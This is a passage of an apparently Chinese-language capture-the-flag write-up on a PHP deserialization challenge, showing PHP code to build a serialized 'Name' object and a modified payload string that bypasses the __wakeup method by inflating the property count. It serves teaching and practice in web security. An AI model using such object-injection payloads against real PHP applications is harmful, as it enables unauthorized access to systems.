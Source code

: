 ```php
```

可以看到,这里需要在访问`index.php`的时候(也就是打开题目的那个页面),用GET传一个`select`字符串,这个字符串会被反序列化为对象

`index.php`包含了`class.php`,而在`class.php`中定义了一个名为`Name`的类,其中还包含了若干魔术方法

其中,在`__destruct`方法中(对象被销毁时调用,执行`unserialize`时也会调用此方法),如果`username`的值为`admin`,且`password`的值为100,就会打印flag

因此按照要求构建`select`字符串就可以了

**快速构建字符串,直接把类以及序列化的相关代码拿到本地来执行,生成符合要求的字符串:**

```php
<?php
    class Name{
        private $username = 'nonono';
        private $password = 'yesyes';

        public function __construct($username,$password){
            $this->username = $username;
            $this->password = $password;
        }
    }
    $a = new Name('admin', 100);
    var_dump(serialize($a));
?>
```

上面的代码输出字符串:

```
O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

但目前的问题是,执行反序列化时相当于生成了一个对象,因此会调用`__wakeup`方法,此方法会将`username`的值修改为`guest`

那么现在就需要设法绕过`__wakeup`方法来执行反序列化:

当成员属性数量和实际的属性数量不一致的时候,可以绕过`__wakeup方法`,所以这里把属性数从2改为3

```
O:4:"Name":3:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

但执行了之后发现反序列化并没有成功,这里`__construct`都没有被调用

<img src="/images/buuctf-web/image-20221015184358169-166704781973445.png" alt="image-20221015184358169" style="zoom:67%;" />
